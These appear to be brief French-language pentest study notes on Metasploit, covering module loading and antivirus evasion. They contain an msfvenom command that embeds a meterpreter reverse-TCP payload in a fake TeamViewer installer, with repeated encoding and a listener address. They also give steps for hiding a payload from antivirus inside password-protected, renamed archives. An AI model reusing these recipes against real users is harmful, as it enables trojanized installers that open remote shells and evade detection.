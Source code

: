 # Encodeurs

# Modules intéressants
```shell-session
multi/recon/local_exploit_suggester
```

# Ajouter un module
chemins utilisé
```shell-session
/usr/share/metasploit-framework/modules/
~/.msf4/modules
```
Pour recharger
```shell
#Ajouter nouveaux modules au démarrage
msfconsole -m /usr/share/metasploit-framework/modules/
#Après lancement
loadpath /usr/share/metasploit-framework/modules/
#Autre?
reload_all
```

# Évitement d'anti-virus
## Encodeurs
Ne sont plus très efficaces
## Templates
Injecte notre charge dans un exécutable quelconque
* ```-x <exécutable>```  exécutable à utiliser
* ```-k``` Permet à l'exécutable de s'exécuter normalement. Une seconde fenêtre sera créé si lancé depuis un CLI
```shell-session
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```
## Archiver
Archiver avec un mot de passe, l'AV ne peut lire le contenu mais pourrais retenir le fichier pour inspection manuelle.
Retirer l'extension .rar ou autre pour plus d'efficacité
```shell-session
rar a ~/test.rar -p ~/test.js
mv test.rar test
rar a test2.rar -p test
mv test2.rar test2
```
##  Packers